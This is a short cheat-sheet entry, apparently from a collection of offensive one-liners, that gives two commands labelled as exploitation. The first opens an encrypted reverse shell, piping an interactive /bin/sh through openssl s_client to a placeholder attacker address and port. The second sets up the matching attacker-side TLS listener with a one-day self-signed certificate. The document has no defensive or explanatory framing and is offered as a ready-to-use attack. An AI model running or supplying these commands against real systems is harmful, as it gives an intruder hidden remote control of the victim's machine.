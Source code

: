 # [Exploitation] Reverse shell (client via s_client) --openssl
mkfifo /tmp/.p; /bin/sh -i < /tmp/.p 2>&1 | openssl s_client -quiet -connect <attacker_ip>:<port> > /tmp/.p

# [Exploitation] TLS listener (quick self-signed cert) --openssl
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 1 -nodes && \
openssl s_server -quiet -key key.pem -cert cert.pem -port <port>
